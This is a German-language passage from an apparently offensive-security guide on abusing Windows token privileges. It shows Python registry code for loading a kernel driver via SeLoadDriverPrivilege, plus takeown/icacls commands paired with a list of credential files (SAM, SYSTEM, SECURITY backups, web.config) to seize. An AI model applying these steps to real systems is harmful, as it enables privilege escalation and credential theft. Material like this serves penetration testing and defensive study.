 ### SeLoadDriverPrivilege

Dieses Privileg erlaubt es, **Gerätetreiber zu laden und zu entladen**, indem ein Registrierungseintrag mit spezifischen Werten für `ImagePath` und `Type` erstellt wird. Da der direkte Schreibzugriff auf `HKLM` (HKEY_LOCAL_MACHINE) eingeschränkt ist, muss stattdessen `HKCU` (HKEY_CURRENT_USER) verwendet werden. Um `HKCU` für die Kernel-Konfiguration von Treibern erkennbar zu machen, muss ein spezifischer Pfad eingehalten werden.

Dieser Pfad ist `\Registry\User\<RID>\System\CurrentControlSet\Services\DriverName`, wobei `<RID>` der Relative Identifier des aktuellen Benutzers ist. Innerhalb von `HKCU` muss dieser gesamte Pfad erstellt werden, und zwei Werte müssen gesetzt werden:
- `ImagePath`, der Pfad zur auszuführenden Binärdatei
- `Type`, mit einem Wert von `SERVICE_KERNEL_DRIVER` (`0x00000001`).

**Schritte, die zu befolgen sind:**
1. Greife auf `HKCU` anstelle von `HKLM` zu, aufgrund des eingeschränkten Schreibzugriffs.
2. Erstelle den Pfad `\Registry\User\<RID>\System\CurrentControlSet\Services\DriverName` innerhalb von `HKCU`, wobei `<RID>` den relativen Identifikator des aktuellen Benutzers darstellt.
3. Setze den `ImagePath` auf den Ausführungspfad der Binärdatei.
4. Weisen den `Type` als `SERVICE_KERNEL_DRIVER` (`0x00000001`) zu.
```python
# Example Python code to set the registry values
import winreg as reg

# Define the path and values
path = r'Software\YourPath\System\CurrentControlSet\Services\DriverName' # Adjust 'YourPath' as needed
key = reg.OpenKey(reg.HKEY_CURRENT_USER, path, 0, reg.KEY_WRITE)
reg.SetValueEx(key, "ImagePath", 0, reg.REG_SZ, "path_to_binary")
reg.SetValueEx(key, "Type", 0, reg.REG_DWORD, 0x00000001)
reg.CloseKey(key)
```
Mehr Möglichkeiten, dieses Privileg auszunutzen, finden Sie unter [https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/privileged-accounts-and-token-privileges#seloaddriverprivilege](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/privileged-accounts-and-token-privileges#seloaddriverprivilege)

### SeTakeOwnershipPrivilege

Dies ist ähnlich wie **SeRestorePrivilege**. Seine Hauptfunktion ermöglicht es einem Prozess, **das Eigentum an einem Objekt zu übernehmen**, wodurch die Anforderung für expliziten diskretionären Zugriff durch die Bereitstellung von WRITE_OWNER-Zugriffsrechten umgangen wird. Der Prozess umfasst zunächst die Sicherstellung des Eigentums an dem beabsichtigten Registrierungsschlüssel zu Schreibzwecken, gefolgt von der Änderung der DACL, um Schreibvorgänge zu ermöglichen.
```bash
takeown /f 'C:\some\file.txt' #Now the file is owned by you
icacls 'C:\some\file.txt' /grant <your_username>:F #Now you have full access
# Use this with files that might contain credentials such as
%WINDIR%\repair\sam
%WINDIR%\repair\system
%WINDIR%\repair\software
%WINDIR%\repair\security
%WINDIR%\system32\config\security.sav
%WINDIR%\system32\config\software.sav
%WINDIR%\system32\config\system.sav
%WINDIR%\system32\config\SecEvent.Evt
%WINDIR%\system32\config\default.sav
c:\inetpub\wwwwroot\web.config
```
### SeDebugPrivilege
